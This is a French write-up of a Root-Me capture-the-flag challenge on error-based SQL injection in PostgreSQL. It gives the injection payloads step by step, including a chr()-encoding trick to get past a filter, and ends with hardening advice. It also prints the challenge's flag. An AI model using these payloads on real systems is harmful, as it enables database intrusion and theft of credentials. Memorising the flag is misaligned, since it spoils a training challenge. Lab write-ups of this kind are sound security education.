





# SQL Injection - Error

https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Error

## Découverte de la vulnérabilité

Le paramètre `order` est injectable et déclenche des erreurs SQL visibles :
```
?action=contents&order=ASC, cast((select version()) as numeric)
```



Résultat : **PostgreSQL 9.5** - vulnérable à l'**Error-Based SQL Injection**.

## Exploitation

### Technique utilisée

**Error-Based Injection** : exploiter les erreurs de conversion `cast()` pour extraire les données. Chaque erreur révèle le contenu de la donnée SQL.

**Contournement WAF** : encodage avec `chr()` et concaténation `||` pour éviter les mots-clés bloqués.

### Extraction des données

**1. Énumération des tables :**
```
?action=contents&order=ASC, cast((select table_name from information_schema.tables limit 1 offset 0) as numeric)
```
→ Table : `m3mbr35t4bl3`



**2. Énumération des colonnes :**
```
?action=contents&order=ASC, cast((select column_name from information_schema.columns where table_name=chr(109)||chr(51)||chr(109)||chr(98)||chr(114)||chr(51)||chr(53)||chr(116)||chr(52)||chr(98)||chr(108)||chr(51) limit 1 offset 0) as numeric)
```
→ Colonnes : `id`, `us3rn4m3_c0l`, `p455w0rd_c0l`



**3. Extraction du password :**
```
?action=contents&order=ASC, cast((select p455w0rd_c0l from m3mbr35t4bl3 limit 1) as numeric)
```



## Résultat

**Flag** : `1a2BdKT5DIx3qxQN3UaC`



## Recommandations de sécurisation

- **Requêtes préparées** : utiliser PDO avec paramètres liés
- **Whitelist pour ORDER BY** : valider avec `in_array(['ASC', 'DESC'])`
- **Masquer les erreurs SQL** : `display_errors = Off` en production
- **Restreindre les privilèges** : révoquer l'accès à `information_schema`
- **WAF** : bloquer les patterns SQL (`cast`, `select`, `chr()`, etc.)
